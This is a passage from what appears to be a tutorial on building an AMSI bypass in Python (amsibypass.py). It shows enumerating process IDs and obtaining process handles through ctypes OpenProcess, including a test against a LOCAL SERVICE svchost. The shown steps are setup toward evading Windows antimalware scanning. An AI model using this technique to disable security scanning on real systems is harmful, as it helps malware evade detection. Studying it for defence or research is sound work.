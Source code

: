 And we get:

```console
PS C:\Users\aroldan> python3 .\amsibypass.py
[9936, 14580, 20424]
```

Task one, done!

### Get a handle for the processes

Now, to be able to do something useful with those
processes, we need to get a handle to them. The
handle is basically an opaque interface to
a kernel-managed object, a process in this case.
This can be done with something like:

```python
from ctypes import *

KERNEL32 = windll.kernel32
PROCESS_ACCESS = (
    0x000F0000 |        # STANDARD_RIGHTS_REQUIRED
    0x00100000 |        # SYNCHRONIZE
    0xFFFF
)
process_handle = KERNEL32.OpenProcess(PROCESS_ACCESS, False, pid)
```

The `PROCESS_ACCESS` variable was obtained from
[here](https://docs.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)

Keep in mind that you can only get a handle to processes
you own. Let's try to get a handle of `PID` `18104`
which is run under the `NT AUTHORITY\LOCAL SERVICE` user:

```powershell
PS C:\Users\aroldan> Get-Process -Id 18104 -IncludeUserName | select UserName,ProcessName

UserName                   ProcessName
--------                   -----------
NT AUTHORITY\LOCAL SERVICE svchost
```

We will use this code:

```python
from ctypes import *

KERNEL32 = windll.kernel32
PROCESS_ACCESS = (
    0x000F0000 |        # STANDARD_RIGHTS_REQUIRED
    0x00100000 |        # SYNCHRONIZE
    0xFFFF
)
process_handle = KERNEL32.OpenProcess(PROCESS_ACCESS, False, 18104)
if not process_handle:
    print(f'[-] Error: {KERNEL32.GetLastError()}')
else:
    print('[+] Got handle')
```

